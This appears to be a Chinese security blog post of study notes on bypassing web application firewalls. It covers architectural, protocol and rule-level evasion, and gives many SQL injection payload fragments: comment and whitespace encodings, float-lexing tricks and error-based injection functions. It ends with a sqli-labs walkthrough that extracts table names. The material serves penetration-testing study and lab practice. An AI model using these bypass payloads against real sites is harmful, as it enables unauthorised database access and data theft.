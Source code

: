 ```yaml
---
layout:       post
title:        "WAF绕过原理分析笔记"
subtitle:     "null"
date:         2020-10-01 ‏‎14:54:16
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: false
tags:
    - WebSec
---
```



# 0x00 前言

Null

---


# 0x01 白盒绕过

## 1. 分析代码

## 2. 绕过限制

1. **大小写变形**：`Or`，`OR`，`oR`，适用于正则没有`/i`
2. **等价替换**：`and`->`&&`, `or`->`||`
3. **双写**：`or`->`oorr`

---


# 0x02 黑盒绕过

参考[seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

## 一、架构层绕过WAF

1. 寻找**源站**（原始IP地址）->针对云WAF
2. 利用**同网段主机**进行渗透->绕过WAF防护区域
3. 利用**边界漏洞**（如利用SSRF）->绕过WAF防护区域

## 二、资源限制角度绕过WAF

POST**大BODY**（WAF可能会为了性能选择性忽略大数据包）

## 三、协议层面绕过WAF检测

### 1. 协议未覆盖

* 请求方式变换：GET->POST
* `Content-Type: application/x-www-form-urlencoded`
    -> `multipart/form-data`

### 2. 参数污染

检测：`?id=1&id=2`，WAF可能只检测第一个不检测第二个，中间件可能用第二个覆盖第一个

## 四、规则层面的绕过（绕过WAF规则）

### 1. SQL注释符绕过
1. 
    ```sql
    union/**/select
    ```
2. 
    ```sql
    union/*aaaa%0xbbs*/select
    ```
3. 
    ```sql
    union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select  /*（中间插入超长注释）*/
    ```
4. 内联注释：
    ```sql
    /*!xxx*/
    ```

### 2. 空白符绕过

1. MySQL**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`, `%0C`, `%A0`, `/*xxx*/`

2. 正则的**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`
* 例1：
    ```sql
    union%250Cselect
    ```
    （%25即“%”，“%250C”即"%0C")
* 例2：
    ```sql
    union%25A0select
    ```

3. **函数分割**符号  
    1. ```sql
        concat%2520(
        ```  
    2. ```sql
        concat/**/(
        ```  
    3. ```sql
        concat%250C(
        ```  
    4. ```sql
        concat%25a0(
        ```
4. **浮点数**词法解析（WAF可能对int/字符型+union select进行匹配，则用浮点型+union select）
    1. ```sql
        where id=8E0union select
        ```
    2. ```sql
        where id=8.0union select
        ```
    3. ```sql
        where id=\Nunion select
        ```
    ![id=8.0union](https://cdn.nlark.com/yuque/0/2020/png/2727264/1603136684724-54629ae2-5dc1-4d0a-8b19-bea7dbaa72d1.png)
5. 利用**error-based**进行SQL注入（Error-based SQL注入函数非常容易被忽略）
    1. ```sql
        extractvalue(1,concat(0x5c,md5(3)));
        ```
    2. ```sql
        updatexml(1,concat(0x5d,md5(3),1);
        ```
    3. ```sql
        GeometryCollection((select*from(select*from(select@@version)f)x))
        ```
    4. ```sql
        ploygon((select*from(select name_const(version(),1))x))
        ```
    5. ```sql
        linestring()
        ```
    6. ```sql
        multpoint()
        ```
    7. ```sql
        multilineString()
        ```
    8. ```sql
        multipolygon()
        ```
6. MySQL特殊语法
    ```sql
    select{x table_name}from{x information_schema.tables};
    ```

---


# Fuzz绕过WAF

## 例1：注释符绕过

先测试最基本的：
```sql
union/**/select
```
再测试中间引入特殊字：
```sql
union/*aaaa%0xbbs*/select
```
最后测试注释长度：
```sql
union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select
```
模式：
```sql
union/*something*/select
```

## 例2：sqli-labs题解

1. **检测**：参数加单引号报错
2. **Fuzz**: 把空格（`%20`）替换为`/**/`，然后用脚本或bp在注释中插随机特殊字符进行Fuzz，如数字`1`、字母`a`、`!`、`@`、`#`、`$`、`%`、`'`等，通过响应长度、payload是否符合语法、响应是否报错判断发现`/*%!%2f*/`可绕过该WAF
3. 把参数中的空格（`%20`）全部**替换**为`/*%!%2f*/`进行下一步测试
4. `order by`判断**字段数**为3个
5. `union select 1, 2, 3`，发现`2`和`3`出现在页面上，故这两个位置可回显结果
6. `union select 1, user(), 3`，发现又被拦截，可知可能是`user()`被匹配到，故改成`user/*%!%2f*/()`，查询成功
7. 
    ```sql
    union select 1, (select table_name from information_schema.tables where table_schema=database() limit 0, 1), 3-- 
    ```

---


*//End of Article*

**参考文献**：

* [seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)